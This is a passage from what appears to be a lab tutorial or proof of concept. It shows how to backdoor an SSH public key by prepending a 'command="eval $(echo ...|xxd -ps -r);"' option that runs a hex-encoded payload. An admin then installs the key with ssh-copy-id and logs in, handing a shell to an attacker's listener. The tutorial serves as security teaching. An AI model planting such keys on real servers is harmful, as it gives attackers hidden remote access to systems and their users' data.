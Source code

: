    In the above:

   - "cat temp.txt | xxd -ps" encodes the content of the temp.txt file
   - "tr -d '\\n'" removes the return characters in the output of the above
   - "2>/dev/null;echo ''" redirects multiple prompts to /dev/null and adds a new line to the output

   For the above, the second and third lines are optional, if you don't mind manually making the payload a single line.

7) Copy the output from the above into .ssh/id_rsa.pub so that it looks something lile:

   ![](newkey1.png)

   In the above, you're:
   * pre-pending  'command="eval $(echo '  to the beginning of the payload
   * appending '|xxd -ps -r);" '  to the end of the payload
   * and prepending the payload construct to the front of the public key content.

8) Now pretend to be the actual admin, who's adding a key to a new server.  Do this by running:

   ```c
   ssh-copy-id admin@10.0.0.2
   ```

9) In the BAD GUY window, make sure that the listener is still running and, in the ADMIN window, ssh to the new server via:

   ```c
   ssh admin@10.0.0.2
   ```

   Did you notice that the prompt in the BAD GUY window changed?


## Suggestions for experimentation

The above is syntax sensitive and a bit crashy but it's just a POC. Much can be improved by experimentation.  Things to try:
